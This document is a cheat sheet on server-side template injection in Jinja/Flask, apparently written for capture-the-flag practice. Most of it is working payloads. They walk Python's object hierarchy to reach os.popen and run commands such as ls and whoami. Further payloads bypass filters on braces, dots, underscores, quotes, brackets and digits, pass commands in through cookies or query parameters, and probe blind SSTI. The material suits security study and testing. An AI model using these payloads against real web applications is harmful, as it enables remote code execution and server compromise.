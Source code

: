 # Server-side Template Injection

## Jinja

### Basic injection

`{{7*7}}`

`{{config}}`

### RCE

The main goal of RCE through SSTI is to climb up the Python object hierachy, target is `__globals__.__builtins__.__import__`. 

Method 1:
1. Get `__class__` of any object
2. Get base Object class from the following *lists*
	* `__mro__`
		* Usually, the last item is the base Object.
	* `__bases__`
		* Usually, the only item is the base Object.
3. Get `__subclasses__()` and find a function that belongs to os or subprocess
	* `__subclasses__()` returns a list, to find the proper index:
		* Write a simple script (split output by comma, search for desired function's index)
		* CTRL+F and search "class", hit Enter until you reach desired function (index might be slightly off but can be faster than scripting)
		* Use Burp Intruder to fuzz (fast but overkill???)
4. The `__globals__` dict is in `__init__`
	* It should have `popen` (os) or `check_output` (subprocess)

> In Python 2, `string` is not directly under `object`, so `__base__[0]` twice

Method 2:
1. Get `__init__` of a Jinja object (self, cycler, joiner, namespace)
2. Get `__globals__`, a dict that has builtins at key `__builtins__`
3. `__builtins__` has `__import__` which we can use to import `os` 
	* Besides `__import__`, `__builtins__` also can have other functions like read(), eval() etc
	* It's however possible to set `__builtins__` to None, so this method is not foolproof
	* This method is more useful if you need to import certain modules that have the flag, rather than plain RCE


*Examples*

```py
{{''.__class__.__bases__[0].__subclasses__()[117].__init__.__globals__['popen']("ls").read()}}
{{''.__class__.__mro__[1].__subclasses__()[117].__init__.__globals__['popen']("ls").read()}}
{{self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```

### Filter bypass

#### No {{ or }}

```py
{% print self.__class__.__mro__[-1].__subclasses__()[117].__init__.__globals__["popen"]("whoami").read()[0] %}
```

#### [^\.]

```py
{{self["__class__"]}}
{{self|attr("__class__")}}

{{''['__class__']['__mro__'][1]['__subclasses__']()[117]["__init__"]["__globals__"]["popen"]("ls")["read"]()}}
{{self|attr("__init__")|attr("__globals__")|attr("__getitem__")("__builtins__")|attr("__getitem__")("__import__")("os")|attr("popen")("ls")|attr("read")()}}
```

#### [^_]

```py
{{self["\x5f\x5fclass\x5f\x5f"]}}
{{self|attr("\x5f\x5fclass\x5f\x5f)}}
```

#### [^'"]

This one is more advanced. We can exploit the built-in request Object in Flask to pass in any strings we like.

#### Cookies

```py
{{self.__class__.__mro__[-1].__subclasses__()[117].__init__.__globals__[request.cookies.f](request.cookies.cmd).read()}}
(Cookies: f=popen; cmd=ls)
```

##### GET query params

```py
{{self.__class__.__mro__[-1].__subclasses__()[117].__init__.__globals__[request.args.f](request.args.cmd).read()}}
(/?f=popen&cmd=ls)
```

Other ways to do this:
* POST (request.values.f)
* Headers (request.headers.f)

#### Word blacklist

```py
{{()|attr(request.cookies.f|format(request.cookies.a))|attr(request.cookies.mro)[-1]}}
(Cookies: f=__cl%sss__; a=a; mro=__mro__)
```

#### [^\[\]]

```py
{{''.__class__.__mro__.__getitem__(-1).__subclasses__().__getitem__(117).__init__.__globals__.__getitem__(request.cookies.function)(request.cookies.cmd).read()}}
(Cookies: function=popen; cmd=ls)
```

#### [^'"\.0-9]

```py
{{lipsum[(dict(__globals__=x)|list)[False]][(dict(os=x)|list)[False]][(dict(popen=x)|list)[False]]([(dict(cat=x)|list)[False]|center,(dict(galf=x)|list)[False]|reverse]|join)[(dict(daer=x)|list)[False]|reverse]()}}
```

### Read variables

If the goal isn't RCE but to read the value of a variable of the current process (might not be possible via RCE), we can import main and expose the variable.

```py
{{ self.__init__.__globals__['__builtins__']['__import__']('__main__') }}
```

### Blind SSTI

Sometimes the app might not have proper output for you to get your results. This is similar to Blind SQLi.

```py
{% if self.__class__.__mro__[-1].__subclasses__()[117].__init__.__globals__["popen"]("whoami").read()[0] == 'r' %} 1 {% endif %}
```

Run it in Burp Intruder, don't forget to check for special characters like \n etc.


## References

* <https://chowdera.com/2020/12/20201221231521371q.html>
